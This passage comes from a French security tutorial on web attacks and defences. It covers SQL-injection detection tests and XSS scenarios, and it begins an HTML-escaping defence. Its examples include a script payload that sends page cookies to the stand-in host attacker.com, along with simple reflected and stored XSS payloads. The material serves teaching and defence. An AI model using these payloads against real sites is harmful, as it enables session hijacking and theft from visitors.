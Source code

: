 ### 🧪 Notre Test

Nous envoyons des payloads SQL malveillants dans les paramètres URL. Si l'application renvoie une erreur 400 (Bad Request), elle détecte l'attaque !

---

## 🛡️ Cross-Site Scripting (XSS)

### 🎭 Le Scénario d'Attaque

XSS consiste à injecter du code JavaScript malveillant dans une page web. C'est comme cacher un piège dans un commentaire qui s'active quand quelqu'un d'autre lit ce commentaire.

**Exemple concret :**
```html
<!-- Commentaire normal -->
<p>Merci pour ce super article !</p>

<!-- Commentaire avec XSS -->
<p><script>document.location='http://attacker.com/steal?cookie='+document.cookie</script></p>
```

### 🚨 Pourquoi c'est Dangereux

- **Vol de session** : Récupération des cookies d'authentification
- **Phishing** : Redirection vers de faux sites
- **Keylogging** : Enregistrement des frappes clavier
- **Défiguration** : Modification du contenu de la page
- **Propagation** : Le script malveillant se propage à tous les visiteurs

**Types d'attaques XSS :**
```javascript
// XSS Réfléchi (dans l'URL)
http://example.com/search?q=<script>alert('XSS')</script>

// XSS Stocké (dans la base de données)
Commentaire: <img src=x onerror=alert('XSS')>

// XSS DOM (côté client)
document.getElementById('content').innerHTML = userInput;
```

### 🛡️ Comment se Défendre

1. **Échappement HTML** de tous les contenus utilisateur
   ```javascript
   function escapeHtml(text) {
       return text
           .replace(/&/g, '&amp;')
           .replace(/</g, '&lt;')
           .replace(/>/g, '&gt;')
           .replace(/"/g, '&quot;')
           .replace(/'/g, '&#x27;');
   }
   ```
